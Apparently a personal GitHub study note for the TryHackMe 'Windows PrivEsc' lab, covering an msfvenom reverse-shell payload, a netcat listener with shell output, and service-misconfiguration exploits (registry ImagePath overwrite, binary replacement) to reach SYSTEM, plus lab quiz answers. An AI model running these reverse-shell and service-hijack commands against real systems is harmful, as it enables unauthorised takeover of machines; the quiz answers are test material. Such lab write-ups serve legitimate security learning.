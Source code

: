 # Windows Privelege Escalation

Windows IP Address: 10.0.2.30
Kali IP Address: 10.0.2.26

msfvenom Utility:
msfvenom is a compbination of Msfpayload and msfencode, putting both of these tools into a single Framework. 

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.26 LPORT=7777 -f exe -o ./reverse.exe

```
By the initisting the impacket file - smbserver.py, create the share directory:

```
python /usr/share/doc/python3-impacket/examples/smbserver.py tools .

```

Copy the reverse.exe created on kali machine to Windows Account(user):

```
copy \\10.0.2.26\reverse.

.\reverse.exe

```

Result:
```
└─$ nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.0.2.26] from (UNKNOWN) [10.0.2.30] 49740
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\PrivEsc>whoami
whoami
desktop-3ku67mt\user

C:\PrivEsc>

```
Get a powershell command from the CMD:

```
C:\PrivEsc>powershell.exe -exec bypass

PS C:\PrivEsc>
```

Information: PowerUp.ps1 and SharpUp.exe - those are tools to enumerate the Windows machine target.

Seatbelt.exe - also an enumeration tool to allow the privilege misconfiguration on a Windows machine

Winpeas - the same as LinPeas

# Kernel Exploits 

1. Enumerate the version by a command - systeminfo

systeminfo  - displays detailed configuration information about computer and its operating system, including operating system configuration, security information, product ID, and hardware properties. 

Resource:
1.  https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo

2. https://www.hackingarticles.in/windows-privilege-escalation-kernel-exploit/

3. https://www.hackingarticles.in/window-privilege-escalation-automated-script/

4. https://github.com/bitsadmin/wesng.git

SMB share Default command: 
```
impacket-smbserver share $(pwd)
```

Command of using the wesng tool:

```
└─$ python wes.py ~/tools/tools/systeminfo.txt -i 'Elevation of Privilege' --exploits-only | more
Windows Exploit Suggester 1.05 ( https://github.com/bitsadmin/wesng/ )
[+] Parsing systeminfo output
[+] Operating System
    - Name: Windows 10 Version 22H2 for x64-based Systems
    - Generation: 10
    - Build: 19045
    - Version: 22H2
    - Architecture: x64-based
    - Installed hotfixes (9): KB5017022, KB5064399, KB5011048, KB5015684, KB5026037, KB5065429, KB5014032, KB501670
5, KB5063979
[+] Loading definitions
    - Creation date of definitions: 20251003
[+] Determining missing patches
[+] Applying display filters
[-] Done. No vulnerabilities found


```

Services are programs that run in the background , accepting input or performing regular tasks. If services run with SYSTEM privileges and are misconfigured , exploiting them may lead to command execution with SYSTEM privileges as well.  (By Tib3rius)

Query the config:
```
> sc.exe qc <name>
```
Query the current status of a service:
```
> sc.exe query <name>
```
Modify the configuration option of the service:
```
> sc.exe config <name> <option>= <value>
```
Start/Stop a service:
```
> net start/stop <name> 
```

Common Service Misconfiguration:
1. Insecure Service Properties
2. Unquoted Service Path
3. Weak Registry Permissions
4. Insecure Service Executables
5. DLL Hijacking

# Definitions

1. Insecure Service Properties
Each service has an ACL which defines certain service-specific permissions. We can change the executable of a service, which runs with SYSTEM privileges. But in case the START/STOP service is disabled then attacker could not escalate the privilege.

2. Unquoted Service Path
Executables in Windows can be run without using their extension (whoami.exe to whoami) Consider the following unquoted path: C:\Program Files\Some Dir\Somesvc.exe. So the C:\Program Files\Some could be executable.

3. Weak Registry Permissions
The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service's configuration even if we cannot modify a service.

4. Insecure Service Executable
If the original service executable is modifiable by a user, we can simply replace it with our reverse shell executable  

5. DLL Hijacking 

A service will try to load functionality from a library called a DLL. Whatever functionality the DLL provides, will be executed with the same privilges as the service that loaded it. Needed absolute path (the complete, explicit location of a file or directory, starting from the root of the file system)

# TryHackMe - Windows PrivEsc

# Task 3 (Service Exploits)

Question: What is the original BINARY_PATH_NAME of the daclsvc service?

Answer: C:\Program Files\DACL Service\daclservice.exe

# Task 4  (Service Exploits)

Question: What is the BINARY_PATH_NAME of the unquotedsvc service?

Answer:  C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

# Task 5 (Service Exploits) Weak Registry Permissions
Get the shell as NT system/authority

Query the 'regsvc' with a command: ``` sc qc regsvc ```

Using accesschk.exe, check the entry for regsvc is writable byNT Authority\Interactive: ```C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc ```  

Overwrite the ImagePath: ``` reg add HKLM\System\CurrentControlSet\Services\regsvc /v ImagePath /t ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f ```

Start the service: ``` net start regsvc ```

# Task 6 (Service Exploits) Insecure Service Executables

Query the "filepermsvc" service: ``` sc qc filepermsvc```

Using accesschk.exe, the service binary is writable by everyone: ```C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"```

Copy the reverse shell and replace it: ```copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y```

Run the SYSTEM privileges: ```net start filepermsvc```